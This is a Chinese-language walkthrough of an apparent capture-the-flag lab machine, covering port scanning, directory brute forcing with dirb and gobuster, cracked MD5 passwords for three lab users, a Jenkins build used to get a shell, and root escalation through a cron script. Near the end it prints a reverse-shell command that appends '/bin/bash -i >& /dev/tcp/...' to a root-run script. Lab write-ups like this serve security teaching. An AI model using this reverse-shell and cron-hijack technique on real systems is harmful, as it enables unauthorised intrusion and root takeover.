## 端口扫描



### 80 端口





8080 端口




#### dirb 目录爆破



##### dirb 进阶
```bash
格式：dirb <url_base> [<wordlist_file(s)>] [options]
-a 设置user-agent
-p <proxy[:port]>设置代理
-c 设置cookie
-z 添加毫秒延迟，避免洪水攻击
-o 输出结果
-X 在每个字典的后面添加一个后缀
-H 添加请求头
-i 不区分大小写搜索
```




#### gobuster



### 访问/access.html





| user | md5 | decrypt |
| --- | --- | --- |
| tiago | 5978a63b4654c73c60fa24f836386d87 | italia99 |
| trindade | f463f63616cb3f1e81ce46b39f882fd5 | marianna |
| eder | 9b38e2b1e8b12f426b0d208a7ab6cb98 | vipsu |


### 进入系统



## 漏洞利用
框架利用了 jenkins


新建 item






#### build






kali 开启监听






得到 shell


## 提权





发现了一个每五分钟定期执行的sh脚本CleaningScript.sh




将以下代码写入该脚本中，再脚本执行的时候执行反弹 shell 命令

```bash
echo "/bin/bash –i >& /dev/tcp/192.168.180.248/4443 0>&1" >> /etc/script/CleaningScript.sh
```


kali 建立监听，等待反弹 root shell 即可




